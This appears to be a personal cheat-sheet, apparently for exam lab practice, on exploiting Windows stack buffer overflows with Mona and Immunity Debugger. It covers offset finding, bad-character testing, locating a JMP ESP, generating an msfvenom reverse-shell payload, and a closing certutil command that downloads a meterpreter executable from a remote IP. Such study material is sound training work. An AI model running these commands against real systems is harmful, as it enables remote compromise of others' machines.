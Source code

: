 # STACK OVERFLOWS WITH MONA AND IMMUNITY
##### Time to find that offset!
1. Set a working folder if you haven't already.
```!mona config -set workingfolder c:\mona\%p```
2. Create a script to fuzz the target. Take note of the amount of bytes the target can handle. Save this number and add 400.
3. Use pattern_create to create a payload to send to your target. This is used for the goal of finding the offset.
```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <size from step 2>```
4. Once program crashes, use mona to find pattern and in turn, find offset.
```!mona findmsp -distance <size from step 2>
EIP contains normal pattern : ... (offset XXXX)```
5. Double check. Send the following payload. ["A" * offset + "BBBB"] See if you overwrote the RET.

#### Bad Chars
##### Now its time to find bad chars!
6. Generate a bytearray with mona.
```!mona bytearray -b "\x00"```
7. Get a string of bad chars that is identical to the bytearray.
```\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff```
8. Append bad char string to payload and send to target. Take note of ESP value from immunity.
```ESP 019DFA30```
9. Run *!mona compare -f C:\mona\oscp\bytearray.bin -a <esp address>* to locate bad chars.
10. Note given chars and generate another byte array in mona with these specified, **!mona bytearray -b "\x00\x01"**. Obtain a string of the bytearray. Repeat this section until the status is *unmodified*.
> eg. !mona bytearray -b "\x00\x07\x2e\xa0\"
> Take it slow. Add one byte to the -b argument for the bytearray at a time. They are not all bad chars. **Look for a pattern. Bad chars can corrupt the next char in the line.**

#### Find a JMP
##### Now find a point to set the RET too.
1. Run ```!mona jmp -r esp -cpb "\x00"``` include all bad characters for -cpb argument.
2. Set RET to a valid address in little endian (backwards).

#### EXPLOIT!
##### It's shell time! =D
1. Run ```msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py``` to grab payload.
2. Add padding before payload in exploit. "\x90"

#### STUFF TO DO

```certutil.exe -urlcache -split -f "http://10.11.17.168:8080/windows_meterpreter_reverse_1234.exe" C:\Users\Public\shell.exe```